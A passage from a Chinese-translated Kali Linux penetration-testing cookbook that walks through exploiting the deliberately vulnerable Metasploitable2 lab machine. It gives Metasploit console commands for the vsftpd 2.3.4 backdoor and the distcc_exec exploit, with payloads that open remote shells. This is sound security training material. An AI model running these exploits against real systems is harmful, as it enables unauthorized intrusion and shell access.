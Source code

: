 我们将在这个模块中使用 Metasploit；确保在初始化 Metasploit 之前启动 PostgreSQL。我们将快速回顾一下我们在执行漏洞扫描时在 Metasploitable2 中发现的漏洞：

### 注意

IP 不同，因为作者已经更改了内部网络的 VLAN。

漏洞扫描输出将如下所示：

![准备工作](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_028.jpg)

这个教程的先决条件是要知道你的 IP 地址，因为它将用于在 Metasploit 中设置 Lhost。让我们从这里选取一些漏洞，以了解易受攻击服务的利用是如何发生的。

## 如何做...

1.  启动 PostgreSQL，然后启动`msfconsole`：

```
      service postgresql start
      msfconsole

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_029.jpg)

1.  我们将利用`vsftpd`漏洞。在运行`msfconsole`的终端中输入以下内容：

```
      search vsftpd
      use exploit/unix/ftp/vsftpd_234_backdoor
      set rhost <Target IP Address>
      set payload cmd/unix/interact
      set lhost <Your IP Address>
      exploit

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_030.jpg)

1.  利用成功运行，并且我们已经进入了系统的根目录。让我们来看看我们在对 Metasploitable 2 进行漏洞评估扫描时发现的另一个漏洞。在终端中输入以下命令：

```
      search distcc
      use exploit/unix/misc/distcc_exec
      set payload cmd/unix/bind_perl
      set rhost <Target IP address>
      exploit

```

输出将如下截图所示：

![如何做...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_04_031.jpg)
